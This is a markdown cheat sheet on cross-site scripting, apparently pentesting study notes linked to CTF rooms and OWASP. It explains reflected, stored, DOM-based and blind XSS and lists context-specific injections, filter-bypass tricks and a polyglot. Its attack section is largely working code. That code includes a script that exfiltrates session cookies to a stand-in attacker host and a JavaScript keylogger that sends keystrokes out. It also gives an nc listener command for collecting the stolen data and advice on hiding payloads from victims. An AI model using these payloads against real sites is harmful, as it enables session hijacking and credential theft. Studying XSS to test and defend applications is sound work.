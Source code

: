 # XSS vulnerabilities (JavaScript)

[![xssgi](../../../_badges/thmp/xssgi.svg)](https://tryhackme.com/room/xssgi)
[![xss](../../../_badges/thmp/xss.svg)](https://tryhackme.com/room/xss)
[![xss_injection](../../../_badges/poat/xss_injection.svg)](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
[![xss_filter_evasion](../../../_badges/owasp/xss_filter_evasion.svg)](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)
[![dom_based_xss_prevention](../../../_badges/owasp/dom_based_xss_prevention.svg)](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)

<div class="row row-cols-md-2"><div>

Cross-site Scripting, most commonly called **XSS**, refers to injecting malicious JavaScript in a web application with the goal of it being executed by other users.

**The usual proof of concept**: show an alert if the script was executed.

```js
<script>alert('XSS')</script>
```

I think you would enjoy more

```js
<script>console.log('XSS')</script>
```

<br>

Places to check 📌

* Forms
* Headers <small>(ex: the client IP may be logged somewhere on the admin-side, on the helpdesk website)</small>
* ...

<br>

One thing to remember is that you would rather make it invisible to the user that a script is being executed in its browser. As such, if you inject a malicious payload in the source attribute of an image field, it would be best to still make sure an image is properly displayed, so that it does not look suspicious at first glance.

</div><div>

<p class="text-center">Some attacks</p>

**Session hijacking**: anyone executing this script will send their cookie to a malicious website owned by the hacker used to capture cookies. The script is using `btoa()` to encode in base64 the values. Sessions cookies are gold 💰, because with them, we can simulate that we are logged, and bypass verifications such as 2FA.

```html
<script>fetch('https://hacker.website/hijack?cookie=' + btoa(document.cookie));</script>
<!--
CTF: nc -nlvp port | And use the IP:port
Decode: sed -n 's/GET \/?cookie=\(.*\)/\1/p' request | base64 -d
-->
<script>fetch('http://IP:port/?cookie=' + btoa(document.cookie));</script>
```

**A keylogger**: sends keys pressed to the hacker website. The script is using `btoa()` to encode in base64 the values.

<details class="details-n">
<summary>See code</summary>

```html
<script>
    let keys = ''
    document.onkeydown = e => keys += e.key
    setInterval(() => {
        if (keys === '') return
        fetch('https://hacker.website/keylogger?key=' + btoa(keys) )
        keys = ''
    }, 1000)
</script>
```
</details>

* Exploit the client privileges to query the website API if any
* Map open ports on the target
* ...

> See [XSS-payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all) for more exploits, but it's a bit old.
</div></div>

<hr class="sep-both">

## Reflected XSS

<div class="row row-cols-md-2"><div>

The malicious code is usually inside a URL, and the vulnerable website when loading the URL, will execute the malicious website.
</div><div>

For instance, "https://vulnerable.search.engine" is a search engine in which the query is stored in the URL in the parameter `q`. The website is vulnerable to XSS, so if we open the URL, then the JavaScript will run in our browser.

```
https://vulnerable.search.engine/?q=%3Cscript%3Ealert(%27XSS%27)%3B%3C%2Fscript%3E
```
</div></div>

<hr class="sep-both">

## Stored XSS

<div class="row row-cols-md-2"><div>

The malicious code is stored by the website, usually in a database. Then, on another page loading the data from the database, a vulnerable website will execute the malicious code.

> Comments, profiles, listings... may be vulnerable.
</div><div>

For instance, a user using the value `<script>alert('XSS');</script>` as username. Then, for instance, on a vulnerable profile page, any user opening a link to the compromised profile, will execute the malicious code.
</div></div>

<hr class="sep-both">

## DOM-Based XSS

<div class="row row-cols-md-2"><div>

DOM-Based XSS means using the document events such as when a tag is loaded, when an image is hovered, and so on, to execute JavaScript. It should be viewed as something used by both Reflected and Stored XSS when we can't use the TAG `<script>`.
</div><div>

```html
<img src="https://duckduckgo.com/assets/logo_homepage.alt.v108.svg"
     onload="alert('XSS#load')"
     onerror="alert('XSS#error')"
     onmouseover="alert('XSS#hover')"
/>
```
</div></div>

<hr class="sep-both">

## Blind XSS

<div class="row row-cols-md-2"><div>

In blind <small>(or out-band)</small> XSS, you are usually sending a payload in a contact/support... forms, in order to maybe steal information from the admin-side website if any. We are calling it "blind XSS", because it's not possible to see if it's working.
</div><div>

See [xsshunter](https://github.com/mandatoryprogrammer/xsshunter) (1.2k ⭐)
</div></div>

<hr class="sep-both">

## XSS payloads

<table class="table table-bordered table-striped border-dark mt-4">
<thead>
<tr><th>Case</th><th>HTML</th><th>Payload</th></tr>
</thead>
<tbody>

<tr><td>Boxed attribute</td><td><code>&lt;input value="here"&gt;</code></td><td><code>">MaliciousCodeHere</code></td></tr>

<tr><td>Unboxed attribute</td><td><code>&lt;input value=here&gt;</code></td><td><code>>MaliciousCodeHere</code></td></tr>

<tr><td>Wrapped</td><td><code>&lt;textarea>here&lt;/textarea&gt;</code></td><td><code>&lt;/textarea&gt;MaliciousCodeHere</code></td></tr>

<tr><td>JavaScript</td><td><code>xxx.innerHTML = 'here';</code></td><td><code>';MaliciousCodeHere;//</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onload="maliciousCodeHere"</code></td></tr>

<tr><td>Boxed Image</td><td><code>&lt;img src="here" alt="xxx"/&gt;</code></td><td><code>URL" onerror="maliciousCodeHere"</code></td></tr>

</tbody></table>

<hr class="sep-both">

## Bypass filters

<div class="row row-cols-md-2"><div>

**Logic flaw**

For instance, a dropdown in which a user is supposed to pick a country. A hacker can try to inject a malicious payload instead of a country. If the developer didn't check the field because the value was supposedly limited to the one the developer picked, then we have a logic flaw.

**Bypass HTML symbols filtering**

If `<`, and `>` are filtered, an attacker may still use DOM Based XSS.

**Bypass DOM Based Filtering**

If there is a filter removing every attribute such as `onload`, `onmouseover`... Then you could try variants as HTML is case-insensitive.

```html
<img src="" ONERROR="alert('XSS')" />
```

</div><div>

**Bypass keywords filtering**

Most functions to filter something will only pass on the text once. It means that if the hacker knows that something is filtered, he may create a payload that is only working after being filtered. For instance, below the filter will remove the "&lt;script&gt;", so the "&lt;s" and the "cript&gt;" will be concatenated, effectively bypassing the filter.

```html
<s<script>cript>alert('XSS');</s<script>cript>
// filter remove "<script>"
<script>alert('XSS');</script>
```

You can also try variants if the filter is case-sensitive

```html
<scIpT>alert('XSS');</scIpT>
```

Another way of bypassing keyword filtering is using alternate forms. For instance, with the function `alert`, we could do.

```html
<img src="NOT_FOUND" onerror="eval('aler'+'t')('XSS')">
<!-- unicode in HTML with &# \u -->
<img src="NOT_FOUND" onerror=&#X61;&#X6C;&#X65;&#X72;&#X74;('XSS')>
<!-- unicode with \u -->
<img src="NOT_FOUND" onerror=\u0061lert('XSS')>
```
</div></div>

<hr class="sep-both">

## Polyglots - the magic payloads

<div class="row row-cols-md-2"><div>

XSS polyglots are sort of magic payloads designed to bypass many tags/attributes/filters/... at once.
</div><div>

An example

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XSS')//>\x3e
```
</div></div>